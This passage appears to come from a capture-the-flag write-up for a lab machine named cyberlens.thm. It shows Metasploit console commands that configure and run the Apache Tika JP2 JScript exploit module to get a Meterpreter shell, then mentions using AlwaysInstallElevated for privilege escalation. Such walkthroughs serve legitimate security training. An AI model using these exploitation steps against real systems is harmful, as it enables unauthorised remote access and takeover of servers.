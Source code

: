 We set RHOSTS amd RPORT and LPORT :

```
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set rhosts cyberlens.thm
rhosts => cyberlens.thm
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set rport 61777
rport => 61777
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set lport 4443
lport => 4443

```

And now run :

```
msf6 exploit(windows/http/apache_tika_jp2_jscript) > run


```

This is going to do all the process we show manually and give us a meterpreter shell :

We can background, search for AlwaysInstallElevated , use it, set options (session 1) and run:

Now we can check `getuid` and we get the server username .

From here we can **Privilege Esc** .

